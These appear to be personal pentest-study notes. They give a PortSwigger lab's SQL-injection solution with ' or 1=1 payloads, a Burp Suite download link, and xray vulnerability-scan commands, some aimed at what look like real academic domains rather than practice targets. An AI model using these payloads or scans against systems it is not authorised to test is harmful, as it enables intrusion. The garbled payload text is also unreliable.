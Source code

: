 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


https://portswigger-cdn.net/burp/releases/download?product=pro&version=2024.10.3&type=Jar









# XRAY 
 ```
./xray_linux_amd64 webscan --url https://bwed.ac.in/ --html-output vuln.html
 ```
This provides more comprehensive crawling than --basic-crawler.

Specify Custom Plugins: To focus on specific vulnerability types:

bash
Copy code
./xray_linux_amd64 webscan --plugin sql-injection,xss --url https://biteac.in/ --html-output vuln.html
Log Output: Enable logging for better debugging:

bash
Copy code
./xray_linux_amd64 webscan --basic-crawler https://juice-shop.herokuapp.com/ --html-output vuln.html
